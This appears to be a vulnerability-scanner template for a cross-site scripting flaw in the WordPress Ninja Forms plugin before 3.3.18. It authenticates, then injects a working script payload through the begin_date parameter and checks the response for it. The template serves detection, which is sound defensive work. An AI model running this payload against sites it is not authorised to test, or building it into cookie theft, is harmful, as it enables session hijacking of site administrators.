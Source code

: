 **Type - status**
- status
    1. 200

---
# WordPress Ninja Forms \<3.3.18 - Cross-Site Scripting
## Description
- WordPress Ninja Forms plugin before 3.3.18 contains a cross-site scripting vulnerability. An attacker can inject arbitrary script in includes/Admin/Menus/Submissions.php via the begin_date, end_date, or form_id parameters. This can allow an attacker to steal cookie-based authentication credentials and launch other attacks.

- severity - medium
- tags - wp-plugin,wp,xss,authenticated,wpscan,edb,cve,cve2018,ninja-forms,wordpress
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

log={{username}}&pwd={{password}}&wp-submit=Log+In

```
### Step - 2
```
GET /wp-admin/edit.php?s&post_status=all&post_type=nf_sub&action=-1&form_id=1&nf_form_filter&begin_date="><img+src%3Dx+onerror%3Dalert%28document.domain%29%3B%2F%2F&end_date&filter_action=Filter&paged=1&action2=-1 HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body_2
- words
    1. Begin Date" value="\">\<img src=x onerror=alert(document.domain);//">

**Type - word**
- part - header_2
- words
    1. text/html

**Type - status**
- status
    1. 200

---